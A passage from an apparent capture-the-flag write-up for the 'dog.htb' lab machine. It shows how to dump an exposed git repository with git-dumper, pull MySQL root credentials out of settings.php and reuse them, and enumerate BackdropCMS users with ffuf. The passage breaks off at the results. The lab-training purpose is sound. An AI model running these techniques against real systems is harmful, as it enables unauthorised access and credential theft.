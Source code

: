 
## 🧩 Phase 2 — Git Repository Exfiltration

### Using git-dumper

Installation and use of the **git-dumper** tool to reconstruct the complete repository:

```bash
python3 -m venv env
source env/bin/activate
pip install git-dumper
git-dumper http://dog.htb/ dump
```

Once downloaded, restore files:

```bash
cd dump
git restore .
```

### Analysis of settings.php file

Critical file found: `settings.php`

```php
$database = 'mysql://root:BackDropJ2024DS2024@127.0.0.1/backdrop';
```

<div class="bg-green-100 dark:bg-green-900/20 border-l-4 border-green-500 p-4 my-4 rounded-r-lg">
    <p class="text-green-800 dark:text-green-200 font-bold">
        <i class="fas fa-key mr-2 text-green-500"></i>
        MySQL credentials retrieved: <code>root : BackDropJ2024DS2024</code>
    </p>
</div>

<div class="bg-amber-100 dark:bg-amber-900/20 border-l-4 border-amber-500 p-4 my-4 rounded-r-lg">
    <p class="text-amber-800 dark:text-amber-200">
        <i class="fas fa-info-circle mr-2 text-amber-500"></i>
        <strong>Note:</strong> The MySQL service is not exposed, but these credentials can be reused elsewhere (CMS accounts, SSH, etc.).
    </p>
</div>


## 🔎 Phase 3 — Backdrop User Enumeration

The CMS login page (/user/login) is protected against brute-force (timeout). However, BackdropCMS manages URL *aliases* — an alternative fuzzing approach is possible:

```bash
ffuf -w /usr/share/seclists/Usernames/xato-net-10-million-usernames.txt \
-u "http://dog.htb/?q=accounts/FUZZ" -mc 403
```

Results:
